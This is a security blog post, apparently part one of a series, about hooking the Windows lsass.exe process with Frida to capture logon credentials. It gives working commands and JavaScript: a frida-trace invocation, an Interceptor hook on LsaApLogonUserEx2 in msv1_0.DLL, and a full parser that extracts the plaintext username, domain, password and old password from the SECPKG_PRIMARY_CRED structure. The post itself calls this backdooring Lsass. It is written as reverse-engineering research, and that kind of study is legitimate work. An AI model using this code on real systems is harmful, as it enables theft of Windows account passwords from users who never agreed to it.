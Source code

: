 ```yaml
---
title: Dumping Lsass with... Frida? (Part 1)
description: A blog about dynamic instrumentation of Lsass for fun and profit!
date: 2022-10-21
permalink: /blogs/mimikatz-frida-part-1
---
```


# Dumping Lsass with... Frida? (Part 1)

Recently I've been getting into [Frida](https://frida.re/), a great debugging and dynamic instrumentation tool with cross-platform support. Before I looked into it, I'd only ever heard of Frida as a tool for hacking mobile apps - I'd never considered it for anything else. However, I think Frida has just as much potential as a rapid prototyping tool for reverse engineering and exploit development. It's agile, portable and fast, which makes it an excellent choice for experimenting and tinkering with a process.

I've had advice in the past that writing your own Mimikatz implementation is one of the best ways to get familiar working with memory hacking in Windows. A credential dumper that requires you to execute and connect to a Frida server on the target probably wouldn't be your first choice on an engagement. However, it's also not something I've seen anyone else doing, and I hoped that the end result would be a kind of "intermediary" tool that could be trivially ported to other languages. 

In this first part, we'll focus on taking advantage of Frida's dynamic instrumentation features to backdoor Lsass remotely. In future articles, we'll explore dumping credentials directly from Lsass memory.

## Step 1: Exploring Lsass

You can find a wealth of tools and tutorials out there which discuss how Mimikatz works and how to dump credentials from the process memory of Lsass. I wanted to make a start completely blind, though, and see what I could discover with Frida alone.

To start with, I spun up a Windows 10 VM and launched the latest version of Frida server as Administrator:

```powershell
> .\frida-server.exe -l 0.0.0.0
```

This opens a debugging server on port 27042, which we can connect to using Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe
```

One of Frida's most powerful features is its dynamic instrumentation functionality, which lets us hook almost any function used by a process. Before we can do that, though, we'll need some basic situational awareness. There are a lot of different modules loaded by the *lsass.exe* process, which we can enumerate using `Process.enumerateModules()`. Here's just one of the results:

```text
    {
        "base": "0x7ffd1ca30000",
        "name": "msv1_0.DLL",
        "path": "C:\\Windows\\system32\\msv1_0.DLL",
        "size": 483328
    },
```

Out of the many possible options, this one stands out - it's the Microsoft Authentication Package, which is invoked by LSA when a user performs an interactive logon. According to [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

> The MSV1_0 package checks the local security accounts manager (SAM) database to determine whether the logon data belongs to a valid security principal and then returns the result of the logon attempt to the LSA.

If we're looking to hook into the authentication logic called by Lsass, this seems like a pretty good place to start.

## Step 2: Hooking MSV1_0

So, now we have a good idea of which module we want to target, but how do we know which functions to hook in order to extract credentials? This is where *frida-trace* comes to the rescue. Instead of writing dozens of boilerplate scripts to inject into each possible function, we can simply specify the module we're interested in and hook all functions within it:

```bash
frida-trace -H 192.168.1.120 lsass.exe -i 'msv1_0.DLL!*'
```

We leave this running while we invoke an interactive logon somewhere on the target VM (i.e. using the *runas* command), and sure enough:

![a screenshot of various hooked functions including LsaApLogonUserEx2](/img/tracing-msv1_0.png)

I decided to go with the obvious choice here, and target the *LsaApLogonUserEx2()* function. Luckily for us, this function is actually [documented in the MSDN](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-lsa_ap_logon_user_ex2). That will make hooking it a lot easier, as we know exactly what the arguments and expected return values are.

```text
LSA_AP_LOGON_USER_EX2 LsaApLogonUserEx2;

NTSTATUS LsaApLogonUserEx2(
  [in]  PLSA_CLIENT_REQUEST ClientRequest,
  [in]  SECURITY_LOGON_TYPE LogonType,
  [in]  PVOID ProtocolSubmitBuffer,
  [in]  PVOID ClientBufferBase,
  [in]  ULONG SubmitBufferSize,
  [out] PVOID *ProfileBuffer,
  [out] PULONG ProfileBufferSize,
  [out] PLUID LogonId,
  [out] PNTSTATUS SubStatus,
  [out] PLSA_TOKEN_INFORMATION_TYPE TokenInformationType,
  [out] PVOID *TokenInformation,
  [out] PUNICODE_STRING *AccountName,
  [out] PUNICODE_STRING *AuthenticatingAuthority,
  [out] PUNICODE_STRING *MachineName,
  [out] PSECPKG_PRIMARY_CRED PrimaryCredentials,
  [out] PSECPKG_SUPPLEMENTAL_CRED_ARRAY *SupplementalCredentials
)
```

Armed with this information, we can see that the thing we probably care about is the *PrimaryCredentials* variable, which is the 15th argument passed to the function. Now we know enough to write our own Frida script:

```text
var msv = Process.getModuleByName("msv1_0.DLL");
var logonUser = msv.getExportByName("LsaApLogonUserEx2");

Interceptor.attach(logonUser, {
	onEnter: function(args) {
		this.primaryCredentials = args[14];
	},
	onLeave: function(retval) {
		console.log("Address of primary credentials is " + this.primaryCredentials);
	}
});
```

So far, the script is pretty simple. We identify the address of the function and attach to it with Frida's Interceptor. When the function is entered, we save the address of the PrimaryCredentials array. When the function exits, we print the address. To test it out, simply inject the script into Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe -l LsaApLogonUserEx2.js
```

And invoke another interactive logon.

## Step 3: Parsing PrimaryCredentials

So, now we can hook the *LsaApLogonUserEx2()* function and get a pointer to the PrimaryCredentials structure. How do we turn that into actual credential information? The PrimaryCredentials structure is of type *PSECPKG_PRIMARY_CRED*, which means it's a pointer to a *SECPKG_PRIMARY_CRED* struct. Happily for us, that struct is [documented for us as well](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred):

```text
typedef struct _SECPKG_PRIMARY_CRED {
  LUID           LogonId;
  UNICODE_STRING DownlevelName;
  UNICODE_STRING DomainName;
  UNICODE_STRING Password;
  UNICODE_STRING OldPassword;
  PSID           UserSid;
  ULONG          Flags;
  UNICODE_STRING DnsDomainName;
  UNICODE_STRING Upn;
  UNICODE_STRING LogonServer;
  UNICODE_STRING Spare1;
  UNICODE_STRING Spare2;
  UNICODE_STRING Spare3;
  UNICODE_STRING Spare4;
} SECPKG_PRIMARY_CRED, *PSECPKG_PRIMARY_CRED;
```

This gives us all the information we need to write our own parser in Frida. We can "walk" through the struct by starting from our pointer and adding the size of each struct member to get to the next one. For example, the size of a *LUID* struct is 0x8, so we can do:

```javascript
var logonId = this.primaryCredentials;
var downLevelName = logonId.add(0x8);
```

By iterating through in this way, we can eventually get pointers to the members we actually care about: *DownLevelName*, *DomainName*, *Password* and *OldPassword*. Each of these elements is a *UNICODE_STRING* struct, which requires a bit of parsing themselves. The final parsing function is as follows:

```javascript
function parsePrimaryCredentials(ptr) {
	// Parse the SECPKG_PRIMARY_CRED structure pass to LsaApLogonUserEx2. 64-bit only.
	// Input: a pointer to the SECPKG_PRIMARY_CRED structure to be parsed.
	
	var size_luid = 0x8; // https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-_luid
	var size_unicode_string = 0x10; // https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/shared/ntdef/unicode_string.htm
	
	// Reference for struct members:
	// https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred

	// Calculate the address of each member by adding the sizeof the previous member.
	var logonId = ptr;
	var downLevelName = logonId.add ( size_luid );
	var domainName = downLevelName.add( size_unicode_string );
	var password = domainName.add( size_unicode_string );
	var oldPassword = password.add( size_unicode_string );

	// Read the length from each unicode string. Divide by 2 because we are reading UTF 16 strings.
	// Length is located at offset 0x0 in the UNICODE_STRING struct.
	var downLevelNameLength = downLevelName.readUShort() / 2;
	var domainNameLength = domainName.readUShort() / 2;
	var passwordLength = password.readUShort() / 2;
	var oldPasswordLength = oldPassword.readUShort() / 2;

	// Use the length values to read the correct number of bytes from each unicode string.
	// Buffer is located at offset 0x8 in the UNICODE_STRING struct.
	var downLevelNameBuffer = downLevelName.add(0x8).readPointer().readUtf16String(downLevelNameLength);
	var domainNameBuffer = domainName.add(0x8).readPointer().readUtf16String(domainNameLength);
	var passwordBuffer = password.add(0x8).readPointer().readUtf16String(passwordLength);
	var oldPasswordBuffer = oldPassword.add(0x8).readPointer().readUtf16String(oldPasswordLength);

	//Return results.
	var output = {
		"sam_account": downLevelNameBuffer,
		"domain": domainNameBuffer,
		"password": passwordBuffer,
		"old_password": oldPasswordBuffer
	}
	return output;
}
```

And the final result when running it against my Windows 10 VM and initiating an interactive logon:

![a screenshot of dumped credentials from a user logon](/img/dumping-msv1_0.png)

## Conclusion

Hooking functions and changing their behaviour is Frida's bread and butter, and we've demonstrated just how easy it is to backdoor Lsass with Frida. All you need to do so is a little bit of Javascript, a little bit of C struct knowledge, and local admin. In the next part, we'll move away from hooking functions. Instead, we'll look into replicating Mimikatz functionality by extracting credentials directly from memory.

